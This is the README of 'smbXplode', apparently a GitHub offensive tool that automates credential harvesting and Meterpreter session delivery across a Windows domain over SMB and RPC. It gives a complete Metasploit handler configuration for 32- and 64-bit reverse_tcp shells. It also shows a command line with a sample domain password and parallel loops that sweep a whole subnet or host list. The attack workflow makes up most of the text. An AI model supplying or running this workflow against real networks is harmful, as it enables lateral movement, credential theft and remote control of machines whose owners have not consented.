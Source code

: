 # smbXplode

This tool is used to automate the process of harvesting credentials and getting meterpreter sessions throught the smb and rpc in a windows domain.
For this to work you would need to have some kind of admin credentials to start with. or you could have some low previledge creds that you want to try them agains the whole range and try to escalate your priviledge later on. 

You can always re-adapt msfcommands.rc to automate the metasploit commands that you wanna run once you have a session. 

Also notice that due to the use of net rpc, you need to migrate first thing after a session otherwise the session would die. Unless you want to use the winexe command (which you can find commented in the script).

### Usage 
Before running this script, simply make sure that you have two payload files (32 & 64 bit). Make sure to update the name of the files accordingly in the script. 


#### Metasploit Handler
Make sure to have your Metasploit handler listening for both payloads ( you can listen two different ports for 32, and 64 ).
Also, make sure you select the correct payload for the handler, I will demonstrate the reverce_tcp (32 and 64) 

example :

```
use exploit/multi/handler
set autorunscript multi_console_command -rc /path/to/msfcommands.rc
set ExitOnSession false
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 1111
run -j -z
set payload windows/meterpreter/reverse_tcp
set lport 2222
run -j -z
```

Now make sure that your connect back payloads are configured to match those ports and payload type. 

#### Single Host
To run the script simply use the following syntax
```
./smbXplode.sh domain username password hostIP
```

example : 
```
./smbXplode.sh domain tito Password2015 10.10.10.10
```

#### Multiple Hosts
So far it's not really integrated into the script, as I like to keep it as simple as possible. I rely on GNU parallel to do that. 
Notice that parallel passes the IP as the last parameter already. 

example 
```
running against a /24
for i in {1..254}; do echo 10.10.10.$i; done | parallel -j 5 ./smbXplode.sh domain tito Password2015
```
```
running against host ips file
cat hosts.txt | parallel -j 5 ./smbXplode.sh domain tito Password2015
```

